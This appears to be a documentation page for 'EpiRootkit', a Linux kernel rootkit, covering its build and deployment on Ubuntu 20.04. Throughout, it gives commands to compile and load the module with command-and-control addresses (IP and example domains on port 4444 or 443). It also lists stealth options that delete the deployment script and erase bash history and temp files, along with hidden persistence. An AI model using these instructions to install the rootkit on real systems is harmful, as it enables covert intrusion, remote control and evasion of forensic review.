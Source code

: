 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```


## Build

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created
```

## Deployment

### Deployment Script

```bash
# Default usage (uses ./epirootkit.ko automatically)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh ./epirootkit.ko address=192.168.200.11 port=4444

# Domain-based deployment
sudo ./deploy_rootkit.sh address=jules_chef_de_majeur.epirootkit.com

# Stealth deployment with self-cleanup
sudo ./deploy_rootkit.sh --self-delete

# Verbose deployment (show output)
sudo ./deploy_rootkit.sh --verbose
```

### Deployment Options
| Option | Description |
|--------|-------------|
| `--verbose` | Show detailed output during deployment |
| `--self-delete` | Remove script after successful deployment |
| `status` | Check current deployment status |
| `uninstall` | Remove module and cleanup |

### Advanced Usage
```bash
# Stealth deployment
sudo ./deploy_rootkit.sh address=c2.example.com port=443 --self-delete

# Deploy with verbose output then self-destruct
sudo ./deploy_rootkit.sh --verbose --self-delete

# Check deployment status
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit

# Remove deployment
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
```

### Manual Loading (Alternative)
```bash
# Load with domain
sudo insmod epirootkit.ko address=jules-c2.example.com

# Load with IP
sudo insmod epirootkit.ko address=192.168.200.11 port=4444

# Load with defaults from config.h
sudo insmod epirootkit.ko
```

## Self-Cleanup Features

The deployment script includes stealth capabilities:

### Trace Cleanup
- **Temp files**: Removes all `/tmp/jules_est_bo_*` files
- **History cleanup**: Removes deployment commands from bash history
- **Stealth backup**: Creates and removes backup module files

### Self-Destruction
```bash
# Deploy and vanish completely
sudo ./deploy_rootkit.sh --self-delete
# Deployment successful
# Self-deleting deployment script...
# (script file removed automatically)
```

## Management

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit
```

### Default Behavior
- **Module file**: Uses `./epirootkit.ko` by default if no file specified
- **C2 address**: Uses `192.168.200.11:4444` by default
- **Stealth mode**: Silent operation by default (use `--verbose` for output)
- **Persistence**: Automatically handled by rootkit internal mechanisms

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
# Note: Rootkit persistence may remain - use rootkit's own removal commands
```

**Domain Support**: The rootkit supports both domain names and IP addresses. For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).